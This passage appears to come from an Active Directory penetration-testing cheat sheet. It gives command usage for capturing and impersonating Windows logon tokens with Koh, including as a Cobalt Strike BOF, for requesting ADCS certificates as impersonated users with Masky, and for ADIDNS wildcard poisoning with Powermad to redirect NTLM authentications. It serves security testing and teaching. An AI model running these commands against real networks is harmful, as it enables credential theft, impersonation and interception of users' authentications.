 ```powershell
#List logon session
Koh.exe list

#Monitor logon session with SID filtering
Koh.exe monitor <SID>

#Capture one token per SID found in new logon sessions
Koh.exe capture
```

* Client part (only available as Cobalt Strike BOF for the moment)

```powershell
#List captured tokens
koh list

#List group SIDs for a captured token
koh groups <LUID>

#Impersonate a captured token by specifying the session LUID
koh impersonate <LUID>

#Release all captured tokens
koh release all 
```

#### Tokens and ADCS

With administrative access to a (or multiple) computer, it is possible to retrieve the different process tokens, impersonate them and request CSRs and PEM certificate for the impersonated users.

```powershell
.\Masky.exe /ca:<CA_server_FQDN\CA_name> /template:<template_name> /output:./output.txt
```

### ADIDNS poisoning

How to deal with the **Active Directory Integrated DNS** and redirect the NTLM authentications to us

* By default, any user can create new ADIDNS records
* But it is not possible to change or delete a record we are not owning
* By default, the DNS will be used first for name resolution in the AD, and then NBT-NS, LLMNR, etc

If the **wilcard record** (\*) doesn't exist, we can create it and all the authentications will arrive on our listener, except if the WPAD configuration specifically blocks it.

#### Wildcard attack with Powermad

The char `*` can't be added via DNS protocol because it will break the request. Since we are in an AD we can modify the DNS via LDAP. This is what **Powermad** do:

```powershell
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRec

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $IP

# enable a tombstoned record
Enable-ADIDNSNode -Node *

# disable a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

```